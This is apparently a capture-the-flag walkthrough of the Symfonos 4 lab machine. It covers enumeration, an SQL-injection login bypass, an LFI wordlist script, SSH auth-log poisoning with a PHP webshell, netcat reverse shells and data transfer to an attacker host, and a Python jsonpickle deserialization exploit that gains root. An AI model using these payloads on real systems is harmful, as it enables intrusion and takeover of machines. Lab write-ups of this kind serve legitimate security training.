# SYMFONOS 4

## 1 Information Gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`

Or you can use netdiscover.

## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.125 -oN full_service_enum-sC.txt`


`nmap -sV -sU -F 192.168.196.125 -oN udp-sC-sV.txt`

## 1.3 Web
### 1.3.1 Gobuster enum web content
`gobuster dir -u http://192.168.196.125 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -f -x php,bkp,bak,txt,html,aspx -o gobuster/info-403.txt`



`gobuster dir -u http://192.168.196.125 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -f -x php,bkp,bak,txt,html,aspx -o info-403.1.txt`




### 1.3.2 Downloading and reading .log files

Apparently the file reader reads these .log files and exclude the extension.


# 2 Exploitation
## 2.1 Bypass login sqli
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection/Intruder <- only sqli login bypass



## 2.3 LFI (local file inclusion) - using bash to generate payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders

First it needs to grep all .log files and exclude the extension.
We also need add some "../" multiplied by a looping for cases where there is no path traversal:



```
#!/bin/bash

a=0
rm wl-lfi-with-new-dotdot.txt

while [ $a -lt 10 ]; do 
	string=$(python2.7 -c "print $a * '../'")
	for i in $(cat /root/shared/wl-lfi.txt | grep "\.log" | sed 's/\.log//g' | grep -v "\.\." | sed 's/^\///g') ; do
		echo "$string$i" >> wl-lfi-with-new-dotdot.txt
	done
	a=$(( $a + 1 ))
done
cat wl-lfi-with-new-dotdot.txt | sort | uniq > wl-lfi-with-new-dotdot-new.txt
```



### 2.3.1 Reverse shell
https://vk9-sec.com/testing-lfi-to-rce-using-auth-log-ssh-poisoning-with-mutillidae-burpsuite/
https://github.com/bayufedra/Tiny-PHP-Webshell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
ssh '<?=`$_GET[0]`?>@192.168.196.127'
```



```
GET /sea.php?file=/../var/log/auth&0=nc+192.168.196.121+4446+-e+/bin/bash
```

Since we have nc or any other way on target, we can use it for get reverse shell:



# 3 Post-exploitation
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
We can upload LinEnum on the target with python3 and the lib http.server:


`./LinEnum.sh -t > info.txt`

And download from target:
`nc -nlvp 4447 > info.txt`
`cat info.txt | nc 192.168.196.121 4447`



## 3.1 Remote forwarding with ssh
https://www.ssh.com/academy/ssh/tunneling/example
We need to liberate the internal port 8080 on the kali for examine it:
`ssh -fN root@192.168.196.121 -R 8888:127.0.0.1:8080`

## 3.2 Web 8080
### 3.2.1 Gobuster enum web content
`gobuster dir -u "http://localhost:8888/" -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -t 40 -x php,html,txt,bkp,bak,aspx -o info-list-1.0.txt`



We have a cookie with base64 encode.
Let's decode it:


### 3.3.2 Python Pickle without exploit to get root
A quick search in google, reveal that the web application is using Python Pickle:

This articles explain about exploit it:
https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/ 
https://www.synopsys.com/blogs/software-security/python-pickling/
https://blog.nelhage.com/2011/03/exploiting-pickle/
https://intoli.com/blog/dangerous-pickles/

You can use use burpsuit instead code an exploit:

Needs encode to base64:

]

And rooted:



### 3.3.3 Python Pickle with coding exploit to get root
```
#!/usr/bin/env python3
# Exploit to vulnerable app in symfonos 4

import jsonpickle
import os
import socket
import base64
#import sys
import requests
#import subprocess

# Default target
target = 'localhost:8888'
command = 'nc 192.168.196.121 4447 -e /bin/bash'

# Class for exploitation
class Shell(object):
    def __reduce__(self):
        #return (subprocess.Popen, (('nc 192.168.196.121 4447 -e /bin/bash'),))
        return (os.system, (command,))

shell = jsonpickle.encode(Shell())
print (shell)
shell1 = (base64.b64encode(shell.encode()).decode('utf-8'))
print (shell)

cookies = {
    'username': shell1,
}
print (cookies)

headers = {
    'Host': target,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'Cache-Control': 'max-age=0',
}

response = requests.get('http://localhost:8888/whoami', headers=headers, cookies=cookies, verify=False)
print (response.content)

```

And rooted:


 
